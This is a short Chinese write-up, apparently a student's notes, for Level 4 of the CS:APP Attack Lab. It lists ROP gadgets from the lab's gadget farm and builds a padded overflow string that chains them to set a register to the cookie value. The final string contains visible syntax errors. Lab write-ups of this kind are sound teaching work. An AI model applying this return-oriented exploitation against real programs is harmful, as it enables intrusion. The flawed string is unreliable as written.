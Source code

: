 ### Return-Oriented Programming

#### Level 4

需要这种形式的攻击的原因主要是程序做了一些防御手段

- 栈中的内容被设置为不可执行的
- 栈的位置是随机的

所以很难找到植入栈中的代码的地址。在这种情况下，ROP应运而生。这个的原理在[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中已有介绍。

所以重点是在汇编中找到合适的 gadget 进行组合。分析 gadget farm 的内容，可以找到以下有用的汇编。

```assembly
; addval_273
; 48 89 C7 C3
movq rdi, rax
ret

; addval_219
; 58 90 C3
popq rax
nop
ret

; setval_426
; 48 89 C7 90 C3
movq rdi, rax
nop
ret

; getval_481
; 5C 89 C2 90 C3
popq rsp
movl edx, eax
ret

; addval_190
; 48 89 E0 C3
movq rax, rsp
ret
```

我只需要用到`popq rax`和`movq rdi, rax`。所以，我需要做的应该是，

- 覆盖返回地址为`addval_219`中`58 90 C3`处的地址，即`0x4019AB`。
- 通过`popq rax`来将`rax`设为`0x59B997FA`。
- 返回到`addval_273`的地址，即`0x4019A2`。
- 通过`mov rdi, rax`将`rdi`设为cookie的值。

所以最后的地址为的内容为`'00 ' * 40 + 'AB 19 40 00 ' + '00 ' * 4 + 'FA 97 B9 59 ' + '00 ' * 4 'A2 19 40 00 ' + '00 ' * 4 + 'EC 17 40 00 ' + 00 ' * 4 + '\n'`.

结果如下，
